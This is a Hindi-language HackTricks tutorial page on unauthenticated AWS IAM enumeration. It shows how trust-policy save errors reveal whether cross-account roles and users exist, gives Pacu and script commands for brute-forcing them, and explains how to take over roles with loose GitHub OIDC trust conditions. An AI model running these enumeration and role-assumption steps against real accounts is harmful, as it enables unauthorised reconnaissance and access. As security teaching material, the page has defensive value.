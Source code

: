 # AWS - IAM अप्रमाणित Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## एक खाते में रोल्स और यूजरनेम्स का पता लगाएं

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**यह तकनीक अब काम नहीं करती** क्योंकि चाहे रोल मौजूद हो या न हो, आपको हमेशा यह त्रुटि मिलती है:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

आप इसे चलाकर **परीक्षण कर सकते हैं**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

यदि आप **एक ऐसे रोल को मान लेते हैं जिसकी आपको अनुमति नहीं है**, तो AWS एक त्रुटि दिखाएगा जैसे:
```
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
यह त्रुटि संदेश संकेत करता है कि भूमिका मौजूद है, लेकिन इसकी अनुमान भूमिका नीति दस्तावेज़ आपको इसे मानने की अनुमति नहीं देती है। वही कमांड चलाते हुए, लेकिन **एक भूमिका जो मौजूद नहीं है** को लक्षित करते हुए, AWS वापस करेगा:
```
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
आश्चर्यजनक रूप से, **यह प्रक्रिया क्रॉस-अकाउंट काम करती है**। किसी भी मान्य AWS अकाउंट ID और एक अच्छी तरह से तैयार की गई वर्डलिस्ट का उपयोग करके, आप बिना किसी प्रतिबंध के अकाउंट के मौजूदा रोल्स का पता लगा सकते हैं।

आप इस [स्क्रिप्ट का उपयोग कर संभावित प्रिंसिपल्स का पता लगा सकते हैं](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) जो इस मुद्दे का दुरुपयोग करती है।

### ट्रस्ट पॉलिसीज: क्रॉस अकाउंट रोल्स और यूजर्स का ब्रूट-फोर्स

**IAM रोल ट्रस्ट पॉलिसी** सेटअप/अपडेट करते समय, आप यह निर्दिष्ट कर रहे हैं कि कौन से **AWS संसाधन/सेवाएं उस रोल को मान सकती हैं** और अस्थायी क्रेडेंशियल्स प्राप्त कर सकती हैं।

जब आप पॉलिसी सेव करते हैं, अगर संसाधन **पाया जाता है**, तो ट्रस्ट पॉलिसी **सफलतापूर्वक सेव हो जाएगी**, लेकिन अगर यह **नहीं पाया जाता**, तो एक **एरर फेंका जाएगा**, जो इंगित करेगा कि एक अमान्य प्रिंसिपल प्रदान किया गया था।

{% hint style="warning" %}
ध्यान दें कि उस संसाधन में आप एक क्रॉस अकाउंट रोल या यूजर निर्दिष्ट कर सकते हैं:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

यह एक पॉलिसी उदाहरण है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

यह वह **गलती** है जो आपको मिलेगी अगर आप एक **ऐसा रोल इस्तेमाल करते हैं जो मौजूद नहीं है**। अगर रोल **मौजूद है**, तो पॉलिसी बिना किसी गलती के **सहेजी** जाएगी। (गलती अपडेट के लिए है, लेकिन यह बनाते समय भी काम करती है)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
आप इस प्रक्रिया को [https://github.com/carlospolop/aws_tools](https://github.com/carlospolop/aws_tools) के साथ स्वचालित कर सकते हैं:

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

या [Pacu](https://github.com/RhinoSecurityLabs/pacu) का उपयोग करके:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* उदाहरण में इस्तेमाल किया गया `admin` रोल आपके खाते में एक **रोल है जिसे pacu द्वारा अनुकरण किया जाना है** ताकि वह गणना के लिए आवश्यक नीतियों को बना सके।

### Privesc

यदि रोल गलत तरीके से कॉन्फ़िगर किया गया हो और किसी को भी इसे मान लेने की अनुमति दे:

![](<../../../.gitbook/assets/image (35).png>)

तो हमलावर बस इसे मान सकता है।

## Third Party OIDC Federation

कल्पना कीजिए कि आपने एक **Github Actions workflow** को पढ़ा है जो **AWS** के अंदर एक **रोल** तक पहुँच रहा है।\
इस विश्वास से एक रोल को निम्नलिखित **trust policy** के साथ पहुँच मिल सकती है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
यह विश्वास नीति सही हो सकती है, लेकिन **अधिक शर्तों की कमी** के कारण आपको इस पर संदेह करना चाहिए।\
यह इसलिए क्योंकि पिछली भूमिका को **Github Actions से कोई भी** धारण कर सकता है! आपको शर्तों में संगठन का नाम, रेपो का नाम, वातावरण, शाखा आदि भी निर्दिष्ट करना चाहिए...

एक और संभावित गलत कॉन्फ़िगरेशन यह है कि **एक शर्त जोड़ें** निम्नलिखित की तरह:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
ध्यान दें कि **colon** (:) से पहले **wildcard** (\*) है। आप जैसे **org\_name1** नामक एक संगठन बना सकते हैं और Github Action से **assume the role** कर सकते हैं।

## संदर्भ

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)
* [https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/](https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **follow** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
